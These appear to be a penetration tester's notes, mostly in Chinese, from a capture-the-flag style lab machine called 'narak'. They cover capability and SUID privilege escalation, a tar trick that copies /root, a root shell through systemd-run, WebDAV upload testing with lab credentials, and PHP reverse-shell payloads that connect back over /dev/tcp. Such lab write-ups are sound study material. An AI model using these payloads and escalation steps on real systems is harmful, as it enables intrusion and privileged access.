 ```
/sbin/getcap -r / 2>/dev/null

tar 偷文件
/usr/bin/tar = cap_dac_read_search+ep
tar -zcvf root.tar.gz /root
tar -zxvf root.tar.gz 解压出root目录

提权
find / -perm -u=s -type f 2>/dev/null

/usr/lib/policykit-1/polkit-agent-helper-1 他的属组是su所有他的终端上下文是root
 systemd-run -t  /bin/bash 
```



## narak

```
/images               (Status: 301) [Size: 319] [--> http://192.168.231.143/images/]
/tips.txt             (Status: 200) [Size: 58]                                      
/webdav               (Status: 401) [Size: 462]                                     
Progress: 394550 / 1102805 (35.78%)                                                /server-status        (Status: 403) [Size: 280]                                     


扫描不尽人意 用udp扫描
```

```\
wget -r -np -nH -R index.html http://url/including/files/you/want/to/download/
下载本目录下的所有文件

tftp 69端口
```



```
webdav
davtest -url http://192.168.231.143/webdav -auth yamdoot:Swarg
发现什么文件可以成功上传 什么文件可以执行
webdav客户端
cadaver http://192.168.231.143/webdav

看到php文件可以执行 构造php的reverse shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1 '");?>

<?php exec(" /bin/bash -c 'bash -i >& /dev/tcp/192.168.231.129/1234 0>&1'");?>


```



```
udp 扫描
tftp 简单的ftp协议 传文件 搭建简单 不能列出文件名 利用报错回显文件名
tftp ip 就可以进来
hint.txt 中 提到了 creds.txt
试一下

```
